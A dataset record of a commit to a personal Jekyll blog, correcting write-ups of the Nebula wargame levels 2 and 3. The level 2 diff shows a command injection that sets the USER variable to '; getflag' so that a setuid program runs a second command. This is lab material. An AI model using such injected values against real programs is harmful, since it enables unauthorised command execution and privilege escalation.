

Before and after one commit to ivarmedi/ivarmedi.github.io, a Jekyll site: the page built from _posts/2016-07-30-exploit-exercises-level-2.markdown, in a window 1280 px wide and 900 px high, scrolled down 633 px. Shown: the top 875 px of the window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fix(posts): typo lvl3, syntax lvl2

```diff
--- a/_posts/2016-07-30-exploit-exercises-level-2.markdown
+++ b/_posts/2016-07-30-exploit-exercises-level-2.markdown
@@ -45,12 +45,11 @@ The environment variable `USER` is passed as an argument to `/bin/echo`. Note th
 Anyway, the exploit is done by setting the user variable to something like this:
 
 ~~~ bash
-level02@nebula:~$ export USER="; getflag; echo"
+level02@nebula:~$ export USER="; getflag"
 level02@nebula:~$ /home/flag02/flag02
-about to call system("/bin/echo ; getflag; echo is cool")
+about to call system("/bin/echo ; getflag is cool")
 
 You have successfully executed getflag on a target account
-is cool
 ~~~
 
-We terminate the first `echo` command with a semicolon, then we call the `getflag` command, and adds another echo to avoid syntax errors.
+We terminate the first `echo` command with a semicolon, then we call the `getflag` command, which will get executed by the `flag02` user.
--- a/_posts/2016-07-30-exploit-exercises-level-3.markdown
+++ b/_posts/2016-07-30-exploit-exercises-level-3.markdown
@@ -49,4 +49,4 @@ level03@nebula:~$ cat /tmp/getflag.log
 You have successfully executed getflag on a target account
 ~~~
 
-You could also solve this by changing the password of the `level03` user, but that might be a bit more intrusive :)
+You could also solve this by changing the password of the `flag03` user, but that might be a bit more intrusive :)
```
